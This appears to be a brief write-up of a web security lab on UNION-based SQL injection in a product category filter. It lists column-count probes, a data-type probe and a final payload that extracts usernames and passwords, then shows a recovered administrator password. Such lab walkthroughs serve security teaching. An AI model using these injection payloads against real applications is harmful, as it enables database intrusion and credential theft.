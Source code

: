 SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password. 

First
Determine the number of columns using ORDER BY
' ORDER BY 1--
' ORDER BY 2--
-----
Second :
Determine the data types of the columns
' UNION select 'a',NULL,NULL--
----

'UNION select username, password from users--

administrator
99estao1pme6z6hfbvm4